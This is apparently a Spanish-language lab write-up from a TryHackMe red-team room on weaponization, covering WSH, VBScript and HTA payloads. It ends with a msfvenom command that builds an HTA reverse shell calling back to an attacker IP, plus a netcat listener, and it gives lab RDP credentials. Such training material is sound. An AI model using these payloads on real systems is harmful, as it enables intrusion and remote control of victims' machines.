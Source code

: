 # WEAPONIZATION

Weaponization es el segundo paso de el modelo Cyber Kill Chain. En este paso, el atacante genera y desarrolla su propio codigo malicioso para ejecutar el payload, como un word, pdf etc. 

Muchas organizaciones utilizan el sistema operativo Windows, osea que es un buen target, Normalmente las organizaciones bloquean la ejecución de .exe por temas de seguridad, los red teames construyen payloads o campañas de phising, ingeniera social, explotación de software, USB o metodos web.

El siguiente grafico es un ejemplo de como funcionaria.

![image](https://github.com/user-attachments/assets/3f45f14e-2d34-4467-bfe1-0b93b0ce810a)

[GITHUB REDTEAM TOOLS](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)

```
xfreerdp /v:10.10.109.131 /u:thm /p:TryHackM3 +clipboard
```

# Windows Scripting Host - WSH

Windows scripting host es una herramienta administrativa de windows ejecuta archivos automaticamente y administra herramientas con el sistema operativo.

"cscript.exe" (linea de comandos) y "wscript.exe" (Interfaz), son responsables de ejecutar varios scripts basicos de microsoft, incluyengo "vbs" y "vbe".

Vamos a escribir un codigo simple de "VBScript" para crear un cuadro de mensaje en windows

```
Dim messsage
message = "bienvenidos"
MsgBox message
```

En la primera linea, declaramos el "message" variable usando "Dim" donde el valor "BIenvenido" en la variable "message" 

![image](https://github.com/user-attachments/assets/6e73cd59-d2a4-4fb5-97bc-cb0946ce3296)

Ahora vamos a ejecutar estos archivos. 

```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

```
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs
```

![image](https://github.com/user-attachments/assets/32118e44-fa0c-48e4-be22-40ec5db618a8)

```
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

# APLICACION HTML

HTA es "HTML Application" nos deja crear archivos descargables para coger toda la información que nos enseña y renderizarla. HTMl aplicacion son paginas HTML dinamicas que contienen Javascript y VBScript. 

```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Imaginemos que la victima se mete a nuestra web y descarga el .hta

![image](https://github.com/user-attachments/assets/2519a2a3-de25-44e3-b326-35c332cf5367)

![image](https://github.com/user-attachments/assets/25777adc-def3-49b2-ad01-632a09f2436a)

![image](https://github.com/user-attachments/assets/65776216-9ae9-4d6d-a685-99689467c3d5)

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
sudo nc -lvp 443
```





